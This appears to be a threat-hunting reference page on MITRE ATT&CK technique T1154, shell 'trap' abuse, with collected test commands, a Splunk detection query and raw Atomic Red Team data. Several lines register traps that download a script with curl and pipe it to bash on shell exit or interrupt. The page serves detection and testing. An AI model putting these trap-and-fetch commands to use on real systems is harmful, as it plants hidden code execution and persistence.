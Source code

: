 
# Trap

## Description

### MITRE Description

> The <code>trap</code> command allows programs and shells to specify commands that will be executed upon receiving interrupt signals. A common situation is a script allowing for graceful termination and handling of common  keyboard interrupts like <code>ctrl+c</code> and <code>ctrl+d</code>. Adversaries can use this to register code to be executed when the shell encounters specific interrupts either to gain execution or as a persistence mechanism. Trap commands are of the following format <code>trap 'command list' signals</code> where "command list" will be executed when "signals" are received.(Citation: Trap Manual)(Citation: Cyberciti Trap Statements)

## Aliases

```

```

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: None
* Permissions: ['User', 'Administrator']
* Platforms: ['Linux', 'macOS']
* Remote: None
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1154

## Potential Commands

```
trap "nohup sh $PathToAtomicsFolder/T1154/src/echo-art-fish.sh | bash" EXIT
exit
trap "nohup sh $PathToAtomicsFolder/T1154/src/echo-art-fish.sh | bash" SIGINt

Bash
icbc @ icbc: / $ trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh

> ^ C
Bash
icbc @ icbc: / $ history

693 trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh
trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh | bash' EXIT
nohup is used for continuing program/script execution even after exit.
trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh | bash' INT
```

## Commands Dataset

```
[{'command': 'trap "nohup sh $PathToAtomicsFolder/T1154/src/echo-art-fish.sh | '
             'bash" EXIT\n'
             'exit\n'
             'trap "nohup sh $PathToAtomicsFolder/T1154/src/echo-art-fish.sh | '
             'bash" SIGINt\n',
  'name': None,
  'source': 'atomics/T1154/T1154.yaml'},
 {'command': 'Bash\n'
             "icbc @ icbc: / $ trap 'nohup curl -sS "
             'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh\n'
             '\n'
             '> ^ C',
  'name': 'Bash',
  'source': 'https://raw.githubusercontent.com/12306Bro/Threathunting-book/master/{}'},
 {'command': 'Bash\n'
             'icbc @ icbc: / $ history\n'
             '\n'
             "693 trap 'nohup curl -sS "
             'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh',
  'name': 'Bash',
  'source': 'https://raw.githubusercontent.com/12306Bro/Threathunting-book/master/{}'},
 {'command': "trap 'nohup curl -sS "
             'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh '
             "| bash' EXIT",
  'name': None,
  'source': 'Kirtar22/Litmus_Test'},
 {'command': 'nohup is used for continuing program/script execution even after '
             'exit.',
  'name': None,
  'source': 'Kirtar22/Litmus_Test'},
 {'command': "trap 'nohup curl -sS "
             'https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh '
             "| bash' INT",
  'name': None,
  'source': 'Kirtar22/Litmus_Test'}]
```

## Potential Detections

```json
[{'data_source': 'bash_history logs'}]
```

## Potential Queries

```json
[{'name': None,
  'product': 'Splunk',
  'query': 'index=linux sourcetype=bash_history "trap *" | table '
           'host,user_name,bash_command'}]
```

## Raw Dataset

```json
[{'Atomic Red Team Test - Trap': {'atomic_tests': [{'auto_generated_guid': 'a74b2e07-5952-4c03-8b56-56274b076b61',
                                                    'description': 'After '
                                                                   'exiting '
                                                                   'the shell, '
                                                                   'the script '
                                                                   'will '
                                                                   'download '
                                                                   'and '
                                                                   'execute.\n'
                                                                   '\n'
                                                                   'After '
                                                                   'sending a '
                                                                   'keyboard '
                                                                   'interrupt '
                                                                   '(CTRL+C) '
                                                                   'the script '
                                                                   'will '
                                                                   'download '
                                                                   'and '
                                                                   'execute.\n',
                                                    'executor': {'command': 'trap '
                                                                            '"nohup '
                                                                            'sh '
                                                                            '$PathToAtomicsFolder/T1154/src/echo-art-fish.sh '
                                                                            '| '
                                                                            'bash" '
                                                                            'EXIT\n'
                                                                            'exit\n'
                                                                            'trap '
                                                                            '"nohup '
                                                                            'sh '
                                                                            '$PathToAtomicsFolder/T1154/src/echo-art-fish.sh '
                                                                            '| '
                                                                            'bash" '
                                                                            'SIGINt\n',
                                                                 'name': 'sh'},
                                                    'name': 'Trap',
                                                    'supported_platforms': ['macos',
                                                                            'linux']}],
                                  'attack_technique': 'T1154',
                                  'display_name': 'Trap'}}]
```

# Tactics


* [Execution](../tactics/Execution.md)

* [Persistence](../tactics/Persistence.md)
    

# Mitigations

None

# Actors

None
